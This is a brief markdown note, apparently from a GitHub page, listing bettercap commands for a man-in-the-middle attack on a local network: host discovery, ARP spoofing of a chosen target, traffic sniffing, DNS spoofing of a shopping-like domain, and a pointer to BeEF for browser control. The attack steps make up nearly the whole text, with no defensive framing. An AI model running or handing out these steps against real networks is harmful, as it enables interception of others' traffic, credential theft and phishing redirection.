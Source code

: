 - to see the device on the network : net.probe on
- net.show : to list of the device and mac,ip.
- set arp.spoof.targets <"target ip address">.
- arp.spoof on: to start the arp spoofing
- net.sniff on /off
- set dns.spoof.Domains myamazon.com.
- dns.spoof on
- ==beef== for more redirecting control.
## learn apache more on kali linux
